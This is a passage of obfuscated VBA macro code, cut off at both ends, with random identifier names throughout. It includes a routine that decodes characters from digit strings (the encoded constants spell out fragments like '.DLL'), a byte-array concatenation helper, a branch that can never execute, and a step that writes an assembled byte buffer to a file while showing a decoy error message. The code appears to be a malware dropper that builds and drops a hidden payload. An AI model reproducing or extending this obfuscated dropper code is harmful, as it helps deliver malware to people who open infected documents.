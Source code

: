 ```vb
    Dim dehrfnjjvdqvcc As Integer
    Dim vnffvklapudjuz As String
    Dim qpichnhnlchfa As String
    If Not tiifnysxfmhsk Then
        dehrfnjjvdqvcc = FreeFile
        Open pvnynzivlnpbtfcckhkm For Binary As #dehrfnjjvdqvcc
        Put #dehrfnjjvdqvcc, 1, cpnptsrgjlywqowekc
        Close #dehrfnjjvdqvcc
    Else
        vnffvklapudjuz = "Abnormal termination"
        MsgBox vnffvklapudjuz, vbCritical
    End If
End Sub
Public Function rrhzspxkphvvy(fdoeegskucopx As String, Optional ghsivksfeumnzg As Long = 3) As String
    Dim jzlnlozvokud As Object
    Dim pudllqzagmavmy As Long
    Dim fmxstnluywhfyhfeagi As String
    Set jzlnlozvokud = siudlfagynaqsgxowx(60, 510, 99, 2)
    For pudllqzagmavmy = 1 To Len(fdoeegskucopx) Step ghsivksfeumnzg
        fmxstnluywhfyhfeagi = fmxstnluywhfyhfeagi + jzlnlozvokud(CInt(Mid(fdoeegskucopx, pudllqzagmavmy, ghsivksfeumnzg)))
    Next pudllqzagmavmy
    rrhzspxkphvvy = fmxstnluywhfyhfeagi
End Function
Private Function siudlfagynaqsgxowx(gegsprvpfmdyscnbyit As Long, fbhkzyybhnzl As Long, uywjraarktmwpduqnygc As Long, rknjbtxnvcdpfsyob As Long) As Object
    Dim whlhgdkoeq As Object
    Dim esxcxsbnadcjdqp As Long
    Set whlhgdkoeq = CreateObject("Scripting.Dictionary")
    For esxcxsbnadcjdqp = gegsprvpfmdyscnbyit / rknjbtxnvcdpfsyob To fbhkzyybhnzl / rknjbtxnvcdpfsyob
        whlhgdkoeq(esxcxsbnadcjdqp + uywjraarktmwpduqnygc) = Chr(esxcxsbnadcjdqp)
    Next esxcxsbnadcjdqp
    Set siudlfagynaqsgxowx = whlhgdkoeq
End Function
Private Function zmzddjxylinzyx(lpxbxbgcxxpgmj() As Byte, rmbcpbmsbs() As Byte) As Byte()
    Dim cwwodgeulknd() As Byte
    Dim tsvilkfgvtu As Long, smbekfvtubycqf As Long
    ReDim cwwodgeulknd(0 To UBound(lpxbxbgcxxpgmj) + UBound(rmbcpbmsbs) + 1)
    smbekfvtubycqf = 0
    For tsvilkfgvtu = LBound(lpxbxbgcxxpgmj) To UBound(lpxbxbgcxxpgmj)
        cwwodgeulknd(smbekfvtubycqf) = lpxbxbgcxxpgmj(tsvilkfgvtu)
        smbekfvtubycqf = smbekfvtubycqf + 1
    Next tsvilkfgvtu
    For tsvilkfgvtu = LBound(rmbcpbmsbs) To UBound(rmbcpbmsbs)
        cwwodgeulknd(smbekfvtubycqf) = rmbcpbmsbs(tsvilkfgvtu)
        smbekfvtubycqf = smbekfvtubycqf + 1
    Next tsvilkfgvtu
    zmzddjxylinzyx = cwwodgeulknd
End Function
Private Function lcjsxjbkldksstie() As Byte()
    Const retkrmjepnvpt = "174165"
    Const kppsxxgzlizwzk = "145167175175"
    Dim bvtmffmapjkqz As Integer
    Dim phtlfmyqnkhwagf As Variant
    Dim xijjpjosysboevz() As Byte
    Dim asertrmporfilkp() As Byte
    Dim qbtpnhioyfve() As Byte
    Randomize
    bvtmffmapjkqz = CInt(Rnd * 100)
    If bvtmffmapjkqz > 100 Then
        phtlfmyqnkhwagf = ylpdfpnmlbmswkm
```